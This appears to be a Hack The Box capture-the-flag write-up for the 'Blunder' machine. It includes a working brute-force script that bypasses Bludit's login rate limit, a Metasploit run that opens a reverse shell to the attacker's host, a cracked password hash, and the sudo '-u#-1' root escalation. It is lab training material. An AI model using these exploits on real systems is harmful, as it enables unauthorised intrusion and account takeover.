 ```yaml
---
title: "HTB: Blunder"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blunder](/assets/images/Blunder.PNG)

# Blunder

## Nmap Scan

```
Nmap scan report for 10.10.10.191
Host is up (0.047s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http

Nmap done: 1 IP address (1 host up) scanned in 93.03 seconds
```

## Website Enumeration

A quick fuzz of the websites shows that the following page exists:

http://10.10.10.191/todo.txt
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

We'll keep the username "fergus" for later use. Additionally, an admin panel exists at http://10.10.10.191/admin. Since we don't have a password yet, we'll continue enumerating the site.

We can visit the Bludit Github repo for more info on the backend of the CMS. Several interesting folders are present, and looking through them presents us with the version of Bludit that this machine is running:

http://10.10.10.191/bl-plugins/opengraph/metadata.json
```
author	"Bludit"
email	""
website	"https://plugins.bludit.com"
version	"3.9.2"
releaseDate	"2019-06-21"
license	"MIT"
compatible	"3.9.2"
notes	""
```

To exploit the admin page, we can use cewl to get a wordlist, and modify the script found at the following url:

https://rastating.github.io/bludit-brute-force-mitigation-bypass/

cewl usage:
```
cewl -w wordlist http://blunder.htb
```

Modified Script:
```
#!/usr/bin/env python3
import re
import requests

host = 'http://blunder.htb'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open('wordlist')

# Generate 50 incorrect passwords

# Add the correct password to the end of the list

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password.strip(),
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password.strip(),
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

We get the following credentials:

**fergus:RolandDeschain**

## Admin Panel Exploitation

Metasploit has a module dedicated to Bludit. We'll use linux/http/bludit_upload_images_exec to exploit the admin console and give ourselves a reverse shell:

```
use linux/http/bludit_upload_images_exec
set RHOSTS 10.10.10.191
set BLUDITUSER fergus
set BLUDITPASS RolandDeschain
run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading rQWQpOSGnt.png...
[*] Uploading .htaccess...
[*] Executing rQWQpOSGnt.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.xx.xx:4444 -> 10.10.10.191:55480) at 2020-06-01 11:03:14 -0500
[+] Deleted .htaccess
...
meterpreter > shell
Process 3329 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we can import tty:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Internal Enumeration

By doing some manual enumeration of the web-server folders, we can find the following hash in /var/www/bludit-3.10.0a/bl-content/databases/users.php:

```
...
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
...
```

Using hashes.org, we're able to easily decrypt this hash and gain the following credentials:

**Hugo:Password120**

## Enumeration as Hugo

First, we'll see if we can run anything as sudo:

```
sudo -l
Password: Password120

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This means that we can sudo -u _user_ /bin/bash to switch to any user on the box, aside from root. Using the exploit for sudo 1.8.27, we can sudo to root, even though !root is set:

https://www.exploit-db.com/exploits/47502

```
sudo -u#-1 /bin/bash

root@blunder:/root# whoami
root
```



